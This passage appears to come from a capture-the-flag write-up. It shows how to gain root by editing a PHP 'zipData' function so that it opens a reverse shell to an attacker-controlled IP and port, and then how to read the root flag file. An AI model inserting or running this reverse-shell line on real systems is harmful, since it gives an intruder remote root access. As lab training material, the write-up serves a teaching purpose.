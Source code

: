 Change the `zipData` function with the follow code to resemble the screenshot below and replace the IP and port with your attacking machine's:

```php
$sock=fsockopen("<ATTACKER_IP>",4445);exec("/bin/bash <&3 >&3 2>&3");
```

![b3e5188991becb2daad651ea195ebda1.png](/resources/5c0c5f05003f484596e46182407f1628.png)

After a few minutes we should get a connection back as the user `root`:

![b20f915f7bda2b2dadeb76c766069af9.png](/resources/ab602a4aabea4909b6a615de8ddd5abe.png)

We can get the root flag in `/root/proof.txt`:

```sh
cat /root/proof.txt
```

![1bf543d227fb6dcc1b020c14fe4d5bf4.png](/resources/3373ac16f6f24dcb89d53d7bc8763851.png)
